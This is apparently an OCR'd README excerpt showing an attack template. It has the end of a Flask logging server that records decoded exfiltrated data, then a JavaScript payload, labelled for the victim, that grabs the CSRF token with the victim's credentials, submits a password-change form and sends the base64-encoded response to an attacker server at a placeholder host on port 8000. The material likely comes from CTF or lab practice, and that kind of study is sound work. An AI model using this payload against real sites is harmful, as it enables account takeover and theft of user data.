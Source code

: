 ```
    with open("requests.log", "a") as log_file:
        log_file.write(f"{datetime.datetime.now()}: {decoded_data}\n")

    return "Data logged and decoded successfully.", 200

# Run the app
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```

##🌙 Victim

You need to know what parameters the form needs filled, and then you can harvest those parameters with the first get request!

```
<script>
// Step 1: Get CSRF token
var xhr = new XMLHttpRequest();
xhr.open('GET', '🌙/home.php', false);  // Fetch the page to get the CSRF token
xhr.withCredentials = true;
xhr.send();

var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('🐱 token 🐱').value);  // Extract and encode CSRF token

// Step 2: Change Password
var csrf_req = new XMLHttpRequest();
var params = `FORM FILLEDd&csrf_token=${csrftoken}`; // Prepare parameters for the POST request
csrf_req.open('POST', '/home.php', false);  // Specify the same endpoint for the POST request
csrf_req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); // Set the content type
csrf_req.withCredentials = true;  // Include credentials (cookies)
csrf_req.send(params);  // Send the request with parameters

// Step 3: Log the response to the logging server
var logResponseXhr = new XMLHttpRequest();
var responseData = btoa(csrf_req.responseText); // Base64 encode the response
logResponseXhr.open('GET', 'http://⭐:8000/log?data=' + responseData, true); // Replace ⭐ with your logging server address
logResponseXhr.send();
</script>


```
